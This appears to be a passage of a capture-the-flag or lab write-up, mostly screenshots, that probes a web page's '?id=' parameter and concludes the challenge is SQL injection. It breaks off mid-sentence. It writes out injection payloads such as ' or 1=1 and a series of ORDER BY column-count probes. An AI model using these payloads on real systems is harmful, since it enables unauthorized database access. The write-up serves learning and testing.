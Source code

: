 <br>

![image](https://github.com/user-attachments/assets/1764a424-d928-4aad-9384-6dd91769012e)


<br>

<p>We have here an</p>

![image](https://github.com/user-attachments/assets/e334d7ce-26a2-4eca-9141-f1ea031600e7)

<br>

![image](https://github.com/user-attachments/assets/246732de-e61c-4e51-aabd-65f365846c04)

<br>

![image](https://github.com/user-attachments/assets/b8a10fb8-91be-4198-8a89-b0d294cec868)

<br>

<p>Dennis is mentinoned in <code>?id=5</code>.  Maybe it is a username?!</p>

<br>

![image](https://github.com/user-attachments/assets/8c346ec3-ce19-484a-9635-ee398e48dc4f)

<br>

<p>Let´s try <code>’ or 1=1</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/0817fa73-100f-477a-a75b-39894433fb0f)

<br>

<p>Scrolling down ... </p>

<br>


![image](https://github.com/user-attachments/assets/a5cd1bf1-d168-46ca-afdb-6a515b64988f)

<br>

<p>So it is about <code>SQL Injection</code>!</p>

<br>

![image](https://github.com/user-attachments/assets/68828109-5c37-4ac9-86ea-12affc334438)


<br>

<p><code>' or 1=1 order by 1,2</code> did not work.<br>
<code>' or 1=1 order by 1,2,3</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4,5</code> did not work.<br><br>
But guess what?  .... with <code>' or 1=1 ORDER BY 1,2,3,4,5,6</code> the output wass ...</p>
